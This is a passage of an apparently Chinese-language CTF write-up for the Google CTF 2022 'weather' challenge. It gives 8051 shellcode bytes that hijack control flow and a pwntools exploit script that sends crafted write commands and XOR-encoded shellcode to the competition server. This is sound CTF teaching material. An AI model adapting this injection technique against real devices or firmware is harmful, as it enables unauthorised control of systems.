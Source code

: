 ```php
90 08 ED    mov     DPTR, #0x8ED
75 F0 80    mov     B, #0x80
```

控制流便被劫持到shellcode了，需要注意在shellcode的末尾需要部署一个ljmp跳回到0x114，否则会crash  
![title](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-86c25934190b2cc1f0ebcdf86f20118cbddd6a35.png)

```php
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

#context.log_level = 'debug'
context.arch = 'amd64'

HOST = 'weather.2022.ctfcompetition.com'
PORT = 1337

gdbscript = '''
'''

tube.s = tube.send
tube.sl = tube.sendline
tube.sa = tube.sendafter
tube.sla = tube.sendlineafter
tube.r = tube.recv
tube.ru = tube.recvuntil
tube.rl = tube.recvline
tube.ra = tube.recvall
tube.rr = tube.recvregex
tube.irt = tube.interactive

p = remote(HOST, PORT)

def pwn():
    info("pwnit!")

    p.sla('? ', 'w 101153 5 3 165 90 165 90')
    p.sla('? ', 'r 101153 64')

    pause()
    p.sla('? ', 'w 101153 65 3 165 90 165 90 '+'0 '*0x39 + '255 17 181')
    #'w 101153 65 3 165 90 165 90 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 255 17 181'
    #p.sla('? ', 'r 101153 64')

    pause()
    l = [0x90, 0x8, 0xed, 0x75, 0xf0, 0x80, 0x2, 0x1,0x14]

    pl = ''
    for i in range(len(l)):
        pl += ' '
        pl += str(l[i] ^ 255)

    p.sla('? ', 'w 101153 '+str(len(l)+8)+' 40 165 90 165 90 0 0 255'+pl)
    p.sla('? ', 'r 101168 64')

    p.irt()

if __name__ == "__main__":
    pwn()
```
